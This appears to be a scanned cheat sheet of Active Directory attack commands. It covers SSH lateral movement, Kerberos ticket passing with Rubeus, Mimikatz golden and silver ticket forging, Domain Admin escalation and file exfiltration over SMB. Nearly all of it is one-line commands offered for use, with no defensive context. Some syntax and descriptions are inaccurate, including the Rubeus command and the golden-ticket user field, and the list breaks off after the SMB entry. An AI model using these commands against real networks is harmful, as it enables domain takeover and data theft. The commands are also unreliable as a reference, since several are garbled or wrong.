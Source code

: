 
### SSH Lateral Movement

```
ssh user@TARGET_IP
```

Move laterally to other systems using SSH credentials or keys.

---

### Kerberos Ticket Pass

```
Rubeus.exe tgt::pass /user:username /password:Password1 /domain:DOMAIN
```

Forge Kerberos tickets to impersonate users for domain access.

---

### Golden Ticket Attack

```
Mimikatz 'kerberos::golden /user:krbtgt /domain:DOMAIN /sid:S-1-5-21-XXXX /aes256:KEY /ticket:golden.kirbi' exit
```

Create a Golden Ticket for persistent domain administrator access.

---

### Silver Ticket Attack

```
Mimikatz 'kerberos::silver /domain:DOMAIN /sid:S-1-5-21-XXXX /service:cifs /target:TARGET /aes256:KEY /ticket:silver.kirbi' exit
```

Create a Silver Ticket to access specific services without full domain compromise.

---

### Domain Admin Privilege Escalation

```
Invoke-PrivilegeEscalation.ps1
```

Script-based enumeration and exploitation to escalate privileges to Domain Admin.

---

### Data Exfiltration via SMB

```
smbclient \\TARGET_IP\share -U user -c 'get secret.txt'
```
